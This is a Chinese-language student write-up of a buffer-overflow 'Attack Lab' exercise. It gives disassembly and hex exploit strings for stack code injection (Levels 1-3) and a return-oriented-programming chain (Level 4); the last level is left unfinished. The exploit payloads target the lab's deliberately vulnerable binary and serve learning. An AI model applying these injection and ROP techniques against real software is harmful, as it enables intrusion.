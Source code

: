 #	Attack Lab

##	Code Injecting Attacks

###	Level 1

需要注入的代码

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit.  Getbuf returned 0x%x\n", val);
}
```

很明显针对`getbuf（）`进行注入攻击。

`getbuf（）`汇编

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

我们可以利用滑步修改getbuf的返回地址为Touch1的地址。

Touch1的地址

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

所以我们的字符串即为：

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00  #touch1 函数的地址，注意在x86是小端系统 
```

结果

![1556783646931](assets/1556783646931.png)

###	Level 2

需要攻击的代码还是如上的text函数，只不过这次要运行touch2函数

```c
void touch2(unsigned val)
{
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(2);
}
```

其实和Level 类似，只不过是针对缓存区进行攻击，除了注入函数地址外，还要注入参数。

touch2地址

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,00%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

`Cookie = 0x59b997fa`

所以注入的汇编代码为

```assembly
mov $0x59b997fa, %rdi  	#设置变量
push $0x4017ec			#返回地址
ret
```

对于二进制码为

```assembly
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

通过断点，找到这段代码的地址为0x5561dc78

所以最后我们的注入代码为

```assembly
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

结果为

![1556786242718](assets/1556786242718.png)

###	Level 3

需要注入的代码

```c
void touch3(char *sval)
{
    vlevel = 3;
    if(hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

本题类似Level2，但是需要注意的是采用字符串比较，使用间接应用，应将cookie放在栈中较为安全的位置，使得注入攻击发动后，字符不会被覆盖，由栈的特点和system 5函数调用标准，在注入地址后面追加cookie就不会被覆盖。

先找到test返回地址所在位置。

![1556787385588](assets/1556787385588.png)

为0x5561dcb0

所以注入的cookie的地址为0x5561dca8（0x5561dcb0 - 8 bytes），

所以注入的代码为

```assembly
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  
35 39 62 39 39 37 66 61  # cookie asicc 表示
```

结果

![1556790505565](assets/1556790505565.png)

##	Return-Oriented Programming Attacks

###	Level 4

与level 2 类似，但是这次要求使用程序原有的代码进行攻击。

我们需要的指令为

```assembly
popq	%rax
mov		%rax,	%rdi
```

查找汇编，指令一对应的地址为

```assembly
0x4019ab
```

指令二对应的地址为

```assembly
0x4019c5
```

所以注入的代码为

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
AB 19 40 00 00 00 00 00
FA 97 B9 59 00 00 00 00
C5 19 40 00 00 00 00 00
EC 17 40 00 00 00 00 00
```

结果：

![1556794093919](assets/1556794093919.png)

需要说明的是，不使用用%rax，使用别的寄存器也是可以完成攻击的。

###	Level 5

与level 3类似。

注入的字符串结构组织

```assembly
溢出区
gadgetk 地址
.......
.......
touch3 地址
cookie
```

大致知道怎么做，但是好麻烦。（留着以后写，如果以后我还能想起来的话）
